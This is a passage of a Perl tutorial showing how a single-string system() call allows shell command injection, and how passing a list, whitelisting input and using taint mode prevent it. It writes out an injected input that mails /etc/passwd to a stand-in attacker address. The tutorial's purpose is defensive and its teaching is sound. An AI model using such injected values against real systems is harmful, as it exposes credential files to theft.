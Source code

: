 ```perl
  my $param = get_from_a_web_form();
  my $cmd = "checkfiles $param";
  system($cmd);
```

If the user types in 'data*.txt' then you are ok. The `$cmd` will contain
`checkfile data*.txt`.

On the other hand if the user passes in some other, more 'clever' parameters then you might
be in trouble. For example if the user types in
`data*.txt; mail blackhat@perlmaven.com &lt; /etc/passwd`.
Then the command perl executes will look like this:
`checkfile data*.txt; mail darkside@perlmaven.com &lt; /etc/passwd`.

The shell will first execute the 'checkfile data*.txt' command as you intended, but then
it will go on, and also execute the 'mail...' command.
That will send your password file to my darker side.

If your Perl script was using `system` with multiple parameters, this security
risk is avoided. If this is the Perl code:

```perl
  my $param = get_from_a_web_form();
  my @cmd = ("checkfiles", $param);
  system(@cmd);
```

And the user types in `data*.txt; mail blackhat@perlmaven.com &lt; /etc/passwd`.
the Perl script will run the 'checkfiles' program and pass a single argument to it:
`data*.txt; mail blackhat@perlmaven.com &lt; /etc/passwd`. No shell expansion
but we also avoided the dangers of the shell.
The 'checkfiles' program will probably complain that it cannot find a file called
`data*.txt; mail blackhat@perlmaven.com &lt; /etc/passwd`, but at least our passwords
will be safe.

## Conclusion and further reading

It is more convenient to make one string out of the command and pass that to `system`,
but if the input comes from an untrusted source, this can easily become an attack vector.
The risk can be reduced by first checking the input against a <b>white list</b> of acceptable
input characters. You can force yourself to think about these issues by enabling the
<b>taint mode</b> using the `-T` flag on the sh-bang line.

You can read more in the [documentation of system](/perldoc/system).

## Comments


when running this command
system ('unoconv -f pdf testpdf_1.ods'); I get the error No such file or directory. However if I run the command from terminal it works. The .ods file is in the same dir as perl script and I have checked $CWD and the working dir is the dir the script is in. Any ideas as how I would debug this.

---
